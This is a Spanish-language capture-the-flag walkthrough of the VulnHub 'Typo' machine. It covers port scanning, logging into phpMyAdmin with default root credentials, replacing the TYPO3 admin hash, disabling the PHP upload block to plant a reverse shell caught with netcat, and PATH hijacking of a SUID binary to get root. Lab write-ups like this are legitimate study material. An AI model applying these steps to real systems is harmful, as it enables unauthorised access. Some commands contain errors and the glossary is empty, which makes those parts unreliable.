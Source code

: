 # Machine Typo

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV 192.168.0.16
``` 
2. El resultado es el siguiente:

```
22/tcp   open  ssh     OpenSSH 7.9p1 Debian
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
8000/tcp open  http    Apache httpd 2.4.38
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
8081/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

## Analisis de vulnerabilidades

- Voy a nessus a realizar un escaneo pero no hay nada util

- Luego ejecute dirb de esta manera
```
$ dirb http://192.168.0.16:80
```
- El resultado que me genero son varias URL y la mas importante es esta
```
http://192.168.0.16:80/typo3/
```
- Ya que me genero el login de el CMS Typo3
- Tambien realice esta busqueda
```
$ dirb http://192.168.0.16:8081
```
- El resultado fue la URL de **phpmyadmin**
```
http://192.168.0.16:8081/phpmyadmin/index.php
```

## Exploiting

- Probe **root** como usuario y contraseña en **phpmyadmin** y funciono
- Voy a la tabla de nombre **bd_user** y hay dos usuarios entonces
- Decido cambiar la contraseña ya que la que tiene es esta
```
$argon2id$v=19$m=65536,t=16,p=2$Q2E3NG1YeTE5NkkxSi5hMg$Hn5lqwQnbYjlnZMPahFHjEWhCDwOcbDKjg3RrTfrVuE
```
- Es una contraseña que no habia visto nunca, pero al cambiarla e ingresar al logind del CMS no funciono
- Decido buscar por internet que es eso de **argon2** y es un generador de HASH
- Entonces genero un HASH nuevo con la palabra **admin** y al colocar esa palabra en el login funciono
- Como el CMS esta hecho en php decido buscar alguna seccion que me permita subir archivos
- Esto con el fin de hacer un **shell reverse** en PHP
- Pero no me aceptaba archivos con extensiones **.php**
- Entonces busque en internete y el CMS puede bloquearlos de esta manera
```
[BE][fileDenyPattern] = \.(php[3-8]?|phpsh|phtml|pht|phar|shtml|
```
- lo que hice fue quitar ese bloqueo y puede subir el archivo PHP
- Luego use **Netcat** para de esta manera
```
$ nc -lvp 4545
```
- Use **Curl** paa conectarme al puerto de **Netcat**
```
$ sudo curl -v http://192.168.0.16/filename/user.php
```
- Y logre obtener un **shell** pero como usuario **www-data**
- Para levantar privilegios empece a buscar archivos **SUID**
```
$ find / -type -f -perm -u=s 2>/dev/null
```
**-type f** => tipo de salida es solo archivo
**-perm -u=s** => usuarios SUID Bits
**2>/dev/null** => redirige todos los errores nulos (error estándar)

- Hay varios archivos **SUID** pero todos me piden contraseña **root**
- Pero hay un archivo de nombre **/usr/local/bin/apache2-restart**
- Busque en internet y el apache se ejecuta como **root** en la variable **PATH**
- Ejecuto el **apache2-restart** pero no funciona
- Entonces con el comando **cat** veo el codigo y esta todo raro
- Decido entonces usar el comando **strings** para ver el codigo mas legible
```
$ strings apache2-restart
```
- EL codigo tiene una linea que sirve para inicar el **apache2**
- Esa linea se ejecuta como **root**, entonces lo que podemos es crear un archivo
Que tenga el **/bin/bash** con todos los permisos
```
$ echo "/bin/bash" > privilages
```
- luego vamos a modificar nuestra variable **PATH** colocando el archivo **privilages**
```
$ export PATH=/tmp/:$PATH
```
- Por ultimo ya podemos ejcutar otra el **apache2-restart** y ya somos **root**
- Para activar el **Prompt** colocamos esto:
```
# python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Glosario

- El **apache2-restart**:
- El **/usr/local/bin**:
- El **/usr/bin**:
- El **/usr/lib**:

## Investigación

Variable **PATH** = https://www.hostinger.co/tutoriales/variables-de-entorno-linux-como-leerlas-y-configurarlas-vps/

https://argon2.online/

## Explotación maquina dc-1

https://www.hacknos.com/typo-1-walkthrough-vulnhub/
